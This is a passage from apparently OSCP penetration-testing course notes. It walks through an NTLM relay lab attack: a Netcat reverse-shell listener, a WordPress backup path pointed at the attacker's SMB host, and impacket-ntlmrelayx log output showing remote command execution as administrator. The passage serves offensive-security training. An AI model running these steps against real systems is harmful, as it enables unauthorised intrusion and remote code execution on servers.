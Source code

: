 > Listing 71 - Setting up impacket-ntlmrelayx

Next, we'll set up a Netcat listener on port 9999 for the incoming reverse shell.

```
kali@kali:~/beyond$ nc -nvlp 9999
listening on [any] 9999 ...
```

> Listing 72 - Setting up Netcat listener on port 9999

Now with everything set up, we can modify the *Backup directory path*.

Let's set the path to the [*URI reference*](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier#URI_references) **//192.168.119.5/test** in which the IP is the address of our Kali machine and **test** is a nonexistent path.

![[OffSec/OSCP/z. images/4507698fbfe1c339cfb9717c1139aec1_MD5.jpg]]

Figure 24: Modified Backup directory path

Once entered, we can scroll down and click on *Save*. This should cause the WordPress plugin to authenticate to impacket-ntlmrelayx in the context of the user running WordPress.

```
...
[*] Authenticating against smb://192.168.50.242 as INTERNALSRV1/ADMINISTRATOR SUCCEED
...
[*] Service RemoteRegistry is in stopped state
...
[*] Starting service RemoteRegistry
...
[*] Executed specified command on host: 192.168.50.242
...
[*] Stopping service RemoteRegistry
```

> Listing 73 - Executing reverse shell on MAILSRV1 via impacket-ntlmrelayx

